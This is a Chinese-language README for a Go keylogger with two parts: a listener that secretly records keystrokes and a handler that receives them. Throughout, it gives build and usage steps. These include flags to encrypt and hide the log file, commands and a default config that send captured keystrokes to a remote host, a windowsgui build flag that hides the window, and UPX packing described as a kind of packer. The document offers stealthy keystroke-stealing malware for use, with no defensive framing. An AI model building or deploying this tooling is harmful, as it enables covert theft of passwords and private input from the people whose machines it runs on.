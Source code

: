 ### 一. 安装Go语言环境
下载对应版本，例如windows64位: go1.13.5.windows-amd64.msi，就单纯编译这程序的话，全部默认下一步就好
```
https://studygolang.com/dl # 官网被墙，可以使用这个
```
### 二. 安装upx(可选)
下载对应版本，例如windows64位: upx-3.95-win64.zip，是个二进制文件可执行文件免安装
```
https://github.com/upx/upx/releases/tag/v3.95
```

### 三. listener
键盘监听程序

#### 参数配置
##### 1. 编译后，以命令行参数的方式进行传入
```
$ keylistener.exe -h
    -E
       encode text (default false)
    -H
       hidden file (default false)
    -lh string
       listener host
    -o string
       output to file (default "c:\\sys\\key.txt")
```

参数：

* -E : 进行文本加密
* -H : 隐藏记录文件
* -lh: 远程接收主机地址
* -o: 本地暂存文件的路径

示例：
进行文本加密， 隐藏记录文件，并把记录发送到， 192.168.1.148:8080
```
$ keylistener.exe -E -H -lh 192.168.1.148:8080
```

##### 2. 设置默认参数，无需手动输入, 编译后直接启动程序可以使用
自行修改listener/main.go下面这几行代码代码

```
// 默认配置
const (
	defaultPath     = "c:\\sys\\key.txt"     // 默认文件保存路径
	defaultHost     = "192.168.252.130:8080" // 默认远程接收地址
	defaultIsEncode = true                   // 默认进行文本加密
	defaultIsHidden = true                   // 默认进行文件隐藏
)
```

#### 编译

##### 1. 进入程序目录
```
$ cd keyboard/listener
```

##### 2. 编译程序
```
$ go build -ldflags "-s -w -H windowsgui" -o keylistener.exe .
```

##### 3. 可选，使用upx压缩程序（据说能起到一定加壳作用）
```
$ upx -9 keylistener.exe
```

### 四. handler
记录接收的远程端，也可以用于解密加密过的键盘记录文件

##### 1. 进入程序目录
```
$ cd keyboard/handler
```

##### 2. 编译程序
```
$ go build -o keyhandler.exe .
```
> 如果想在windows下编译linux可执行程序，在命令行设置临时环境变量后，再进行编译
```
$ set GOARCH=386 # 64位->amd64, 32位-> 386
$ set GOOS=linux
$ go env # 查看是否生效
```

##### 3. 参数
```
  -D    decode text
  -df string
        decode file
  -o string
        output to file
  -p string
        port
```
* -D: 是否需要解密，如果发送端进行加密，可使用此参数进行解密
* -df: 解密文件，后面接文件路径
* -o: 输出文件路径
* -p: 服务端端口地址

示例：

1. 监听8080端口,并对记录进行解密
```
$ keyhandler.exe -D -p 0.0.0.0:8080
```

2. 解密加密文件
```
$ keyhandler.exe -df key.txt -o log.txt
```

